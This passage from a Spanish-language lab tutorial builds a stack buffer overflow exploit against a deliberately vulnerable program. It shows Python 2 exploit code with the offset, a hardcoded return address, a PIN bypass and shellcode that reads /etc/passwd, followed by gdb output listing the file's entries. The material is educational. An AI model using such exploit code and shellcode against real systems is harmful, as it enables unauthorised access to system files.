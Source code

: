 Teniendo la dirección, actualizamos el exploit:

```py
#!/usr/bin/env python2

offset = 'A' * 18
# Debe ir en hexadecimal
ret = '\x7f\xff\xff\xff\xde\x10'
# Le tenemos que dar la vuelta por el modelo Little-Endian
ret = ret[::-1]

print(offset + ret)
```

Ahora sólo falta añadir nuestro `shellcode`. Para facilitarlo, he buscado uno para `Linux x86_64` en [shell-storm.org](https://shell-storm.org) que me permita leer el archivo `/etc/passwd`:

```py
shellcode = '\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41'
```

Sólamente queda juntar todo y, por hacerlo más bonito, modificaremos el offset de tal manera que además de ejecutar el comando, podamos saltarnos el PIN:

```py
#!/usr/bin/env python2

bypass = 'HACK\0HACK\0'
offset = 'A' * 18
ret = '\x7f\xff\xff\xff\xde\x10'[::-1]
shellcode = '\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41'

print(bypass + offset + ret + shellcode)
```

Ahora sólamente guardamos el *exploit* en un archivo y lo ejecutamos con `gdb` para ver qué ocurre:

```
python2 exploit.py > exploit
gdb -q desbordamiento-vulnerable
    r < exploit
        Starting program: desbordamiento-vulnerable < exploit
        Introducir PIN: Acceso concedido, pin correcto
        PISTA:
        pin secreto: HACK
        pin leido: HACK
        root:x:0:0:root:/root:/bin/bash
        daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
        bin:x:2:2:bin:/bin:/usr/sbin/nologin
        sys:x:3:3:sys:/dev:/usr/sbin/nologin
        sync:x:4:65534:sync:/bin:/bin/sync
                [...]
        hplip:x:118:7:HPLIP system user,,,:/var/run/hplip:/bin/false
        geoclue:x:119:124::/var/lib/geoclue:/usr/sbin/nologin
        gnome-initial-setup:x:120:65534::/run/gnome-initial-setup/:/bin/false
        gdm:x:121:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
        ssi:x:1000:1000:SSI Buff Overflow,,,:/home/ssi:/bin/bash
        [Inferior 1 (process 56194) exited with code 01]
```
